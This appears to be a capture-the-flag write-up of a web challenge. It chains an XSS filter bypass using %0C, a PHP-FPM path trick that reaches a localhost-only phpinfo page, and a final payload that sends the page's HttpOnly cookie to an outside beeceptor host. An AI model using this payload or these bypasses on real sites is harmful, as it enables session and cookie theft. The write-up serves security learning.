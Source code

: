 ## Description 
  Just to warm you up for the next Fight :"D
## Walkthrough:
  **the challenges was provided with a src code
  the src code is made of 4 main files 
  1- index.php 
  2- info.php
  3- bot.js
  4- nginx.conf**

  **Flag is in the bot.js cookie with a httponly attribute this mean that JS cannot access the cookie**

  **1-index.php**
  ![image](https://github.com/user-attachments/assets/7d144810-397a-4ae2-91f0-b63c47938092)

  **so it is clear that we can get xss from the name get parameter but how ?**

  **the main problem is in the Enhanced_Trim function that replace the defined char set with "" so how to bypass it to make an alert?**

  **at first i looked for alternatives for the space and found that %0C can work so the payload to make a simple alert -> <img%0Csrc=x%0Conerror=alert``>**

  **but this dosenot have any value since we cannot use JS to steal the cookie bc the httponly attribute on the cookie**

  **the solution was in the info.php that view the phpinfo**

  ![image](https://github.com/user-attachments/assets/b0ad6b6d-cf28-4f41-9bf4-313659f4ac4c)

  **so how we can use phpinfo to get the bot cookie?**

  **when a user vist the phpinfo page it reflect its cookie in response even the HttpOnly ones like this**

    ![phpinfo-dvwa-1](https://github.com/user-attachments/assets/c5908acf-fff5-4eca-8d2d-876ac408c5f6)


  **so now we can make the bot visit the info.php page then take the response and send it to our server right ? no it will not work bc the nginx.conf lets look at it**

  ![image](https://github.com/user-attachments/assets/e8283328-e2fa-4412-947c-aa0eddddba59)

  **so in the nginx.conf it says that the info.php is only accessible from the localhost (the bot dosent see the localhost of the challange so it cannot access it)**

  **that soloution was in the last part of the configuration that include and run any file endwith .php so we can it to access the info.php right ?**

  **i found this on hacktricks that made me able to bypass the validation and accss the info.php (https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass#php-fpm)**

  **so now we cann access the info.php like this -> /info.php/index.php**

  ![image](https://github.com/user-attachments/assets/a822c94b-027c-498d-92de-f019cbc9e6e4)

  **so now we can make the bot vist the /info.php/index.php and get the response and send it to our server**

  ```
  payload ->
  <img%0Csrc=x%0Conerror='fetch("info.php%252Findex.php")%0C.then(response%0C=>%0Cresponse.text())%0C.
then(data%0C=>%0Cfetch("https://qlashx.free.beeceptor.com/",%0C{method:"POST",%0Cheaders:{%0C"Content-Type":"application/x-www-form-urlencoded"},%0Cbody:"data="%0C%2BencodeURIComponent(data)})%0C)'> 
  ```
`flag -> idek{Ghazy_N3gm_Elbalad} `



  
